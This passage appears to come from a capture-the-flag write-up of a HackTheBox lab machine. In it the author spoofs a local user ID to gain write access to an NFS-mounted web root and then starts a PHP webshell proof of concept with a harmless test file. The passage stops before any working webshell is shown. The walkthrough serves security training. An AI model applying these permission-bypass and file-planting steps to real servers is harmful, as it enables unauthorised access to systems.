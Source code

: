 

## Shell as alex

### Get Access to Web Root

The web root is owned by userid 2017, and groupid 33. I'll set my dummy
userid to 2017, and drop into a shell as dummy:



    oxdf@hacky$ sudo usermod -u 2017 dummy 
    oxdf@hacky$ sudo su dummy -c bash
    bash: cannot set terminal process group (168647): Inappropriate ioctl for device
    bash: no job control in this shell
    dummy@hacky:/media/sf_CTFs/hackthebox/squashed-10.10.11.191$ 



Now I can read the share just fine:



    dummy@hacky:/$ ls -l /mnt
    total 44
    drwxr-xr-x 2 dummy www-data  4096 Nov 11 20:40 css
    drwxr-xr-x 2 dummy www-data  4096 Nov 11 20:40 images
    -rw-r----- 1 dummy www-data 32532 Nov 11 20:40 index.md
    drwxr-xr-x 2 dummy www-data  4096 Nov 11 20:40 js



### File Write Test

Now that I can access the web root, can I write files to it? It seems
like I can:



    dummy@hacky:/$ echo "Test?" > /mnt/0xdf.md



Loading up `http://10.10.11.191/0xdf.md` in Firefox, it returns the
message:

![](/img/image-20221111154220530.png)

### PHP WebShell

#### POC

Even though the site isn't running any obvious PHP, it's worth taking a
shot and seeing it the webserver will execute PHP. I'll write a small
PHP file that just echos a message back:



    dummy@hacky:/$ echo -e '<?php\n  echo "0xdf was here!";\n?>'
    <?php
      echo "0xdf was here!";
    ?>
    dummy@hacky:/$ echo -e '<?php\n  echo "0xdf was here!";\n?>' > /mnt/0xdf.php
